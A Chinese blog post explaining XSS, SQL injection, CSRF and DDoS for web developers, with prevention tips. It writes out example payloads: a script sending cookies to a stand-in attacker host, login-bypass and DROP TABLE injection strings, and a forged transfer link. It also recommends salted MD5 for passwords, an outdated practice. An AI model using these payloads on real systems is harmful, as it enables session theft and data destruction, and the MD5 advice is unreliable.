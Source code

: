 - XSS(跨站脚本攻击)
- CSRF（跨站请求伪造）
- SQL注入
- DDOS

XSS
概念
全称是跨站脚本攻击（Cross Site Scripting），指攻击者在网页中嵌入恶意脚本程序。
案列
比如说我写了一个博客网站，然后攻击者在上面发布了一个文章，内容是这样的 <script>window.open(“www.gongji.com?param=”+document.cookie)</script>,如果我没有对他的内容进行处理，直接存储到数据库，那么下一次当其他用户访问他的这篇文章的时候，服务器从数据库读取后然后响应给客户端，浏览器执行了这段脚本，然后就把该用户的cookie发送到攻击者的服务器了。
被攻击的原因
用户输入的数据变成了代码，比如说上面的<script>,应该只是字符串却有了代码的作用。
预防
将输入的数据进行转义处理，比如说讲 < 转义成&lt；
SQL注入
概念
通过sql命令伪装成正常的http请求参数，传递到服务器端，服务器执行sql命令造成对数据库进行攻击
案例
' or '1'= '1。这是最常见的sql注入攻击，当我们输如用户名 jiajun ，然后密码输如'or '1'= '1的时候，我们在查询用户名和密码是否正确的时候，本来要执行的是select * from user where username='' and password='',经过参数拼接后，会执行sql语句 select * from user where username='jaijun' and password=' ' or ' 1'='1 '，这个时候1=1是成立，自然就跳过验证了。
但是如果再严重一点，密码输如的是';drop table user;--，那么sql命令为select * from user where username='jiajun' and password='';drop table user;--' 这个时候我们就直接把这个表给删除了
被攻击的原因
sql语句伪造参数，然后在对参数进行拼接的后形成破坏性的sql语句，最后导致数据库受到攻击
预防
在java中，我们可以使用预编译语句(PreparedStatement)，这样的话即使我们使用sql语句伪造成参数，到了服务端的时候，这个伪造sql语句的参数也只是简单的字符，并不能起到攻击的作用。
很多orm框架已经可以对参数进行转义
做最坏的打算，即使被’拖库‘('脱裤，数据库泄露')。数据库中密码不应明文存储的，可以对密码使用md5进行加密，为了加大破解成本，所以可以采用加盐的（数据库存储用户名，盐（随机字符长），md5后的密文）方式。
CSRF
概念
全称是跨站请求伪造(cross site request forgery),指通过伪装成受信任用户的进行访问，通俗的讲就是说我访问了A网站，然后cookie存在了浏览器，然后我又访问了一个流氓网站，不小心点了流氓网站一个链接（向A发送请求），这个时候流氓网站利用了我的身份对A进行了访问。
案列
这个例子可能现实中不会存在，但是攻击的方式是一样的。比如说我登录了A银行网站，然后我又访问了室友给的一个流氓网站，然后点了里面的一个链接 www.A.com/transfer?account=666&money=10000,那么这个时候很可能我就向账号为666的人转了1w软妹币
注意这个攻击方式不一定是我点了这个链接，也可以是这个网站里面一些资源请求指向了这个转账链接，比如说一个
被攻击的原因
用户本地存储cookie，攻击者利用用户的cookie进行认证，然后伪造用户发出请求
预防
之所以被攻击是因为攻击者利用了存储在浏览器用于用户认证的cookie，那么如果我们不用cookie来验证不就可以预防了。所以我们可以采用token（不存储于浏览器）认证。
通过referer识别，HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。那么这样的话，我们必须登录银行A网站才能进行转账了。
DDOS
概念
分布式拒绝服务攻击（Distributed Denial of Service），简单说就是发送大量请求是使服务器瘫痪。DDos攻击是在DOS攻击基础上的，可以通俗理解，dos是单挑，而ddos是群殴，因为现代技术的发展，dos攻击的杀伤力降低，所以出现了DDOS，攻击者借助公共网络，将大数量的计算机设备联合起来，向一个或多个目标进行攻击。
案例
SYN Flood ,简单说一下tcp三次握手，客户端先服务器发出请求，请求建立连接，然后服务器返回一个报文，表明请求以被接受，然后客户端也会返回一个报文，最后建立连接。那么如果有这么一种情况，攻击者伪造ip地址，发出报文给服务器请求连接，这个时候服务器接受到了，根据tcp三次握手的规则，服务器也要回应一个报文，可是这个ip是伪造的，报文回应给谁呢，第二次握手出现错误，第三次自然也就不能顺利进行了，这个时候服务器收不到第三次握手时客户端发出的报文，又再重复第二次握手的操作。如果攻击者伪造了大量的ip地址并发出请求，这个时候服务器将维护一个非常大的半连接等待列表，占用了大量的资源，最后服务器瘫痪。
CC攻击，在应用层http协议上发起攻击，模拟正常用户发送大量请求直到该网站拒绝服务为止。
被攻击的原因
服务器带宽不足，不能挡住攻击者的攻击流量
预防
最直接的方法增加带宽。但是攻击者用各地的电脑进行攻击，他的带宽不会耗费很多钱，但对于服务器来说，带宽非常昂贵。
云服务提供商有自己的一套完整DDoS解决方案，并且能提供丰富的带宽资源
总结
上面一共提到了4中攻击方式，分别是xss攻击（关键是脚本，利用恶意脚本发起攻击），CSRF攻击（关键是借助本地cookie进行认证，伪造发送请求），SQL注入（关键是通过用sql语句伪造参数发出攻击），DDOS攻击（关键是通过手段发出大量请求，最后令服务器崩溃）
之所以攻击者能成功攻击，用户操作是一个原因，服务器端没有做好防御是一个问题，因为无法控制用户的操作，所以需要我们服务器端的开发做好防御。
没有觉得绝对安全，只要更安全。
我觉得分享是一种精神，分享是我的乐趣所在，不是说我觉得我讲得一定是对的，我讲得可能很多是不对的，但是我希望我讲的东西是我人生的体验和思考，是给很多人反思，也许给你一秒钟、半秒钟，哪怕说一句话有点道理，引发自己内心的感触，这就是我最大的价值。（这是我喜欢的一句话，也是我写博客的初衷）
作者：jiajun 出处： http://www.cnblogs.com/-new/
本文版权归作者和博客园共有，欢迎转载，但未经作者同意必须保留此段声明，且在文章页面明显位置给出原文连接，否则保留追究法律责任的权利。如果觉得还有帮助的话，可以点一下右下角的【推荐】，希望能够持续的为大家带来好的技术文章！想跟我一起进步么？那就【关注】我吧。
